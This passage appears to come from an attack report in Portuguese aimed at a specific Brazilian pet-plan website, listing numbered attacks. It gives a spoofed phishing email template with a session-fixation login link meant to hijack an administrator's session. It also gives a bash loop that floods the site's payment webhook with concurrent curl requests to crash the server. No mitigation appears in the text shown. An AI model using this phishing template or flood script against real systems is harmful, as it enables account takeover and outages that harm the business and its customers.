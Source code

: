 
## 🎣 ATAQUES DE ENGENHARIA SOCIAL

### 📧 ATAQUE 10: Phishing com Session Fixation

**Combinação de Vulnerabilidades:**

1. **Criar Email Falso:**
   ```html
   De: suporte@unipetplan.com.br (spoofado)
   Assunto: [URGENTE] Problema com sua conta
   
   Olá Admin,
   
   Detectamos atividade suspeita em sua conta.
   Por favor, verifique imediatamente:
   
   https://unipetplan.com.br/admin/login?session=ATTACKER_SESSION_ID
   
   Atenciosamente,
   Equipe UNIPET PLAN
   ```

2. **Admin Clica no Link:**
   - Session ID fixado no browser
   - Admin faz login normalmente
   - Atacante tem acesso à sessão autenticada

---

## 💣 ATAQUES DE NEGAÇÃO DE SERVIÇO (DoS)

### 🌊 ATAQUE 11: Resource Exhaustion via Webhook

**Vetor:** Enviar webhooks massivos sem validação

```bash
# Script para derrubar o servidor
while true; do
  for i in {1..1000}; do
    curl -X POST https://unipetplan.com.br/api/webhooks/cielo \
      -H "Content-Type: application/json" \
      -d '{"PaymentId":"'$(uuidgen)'","ChangeType":1}' &
  done
  wait
done
```

**Resultado:**
- CPU em 100%
- Memória esgotada
- Banco de dados travado
- Sistema completamente inoperante

---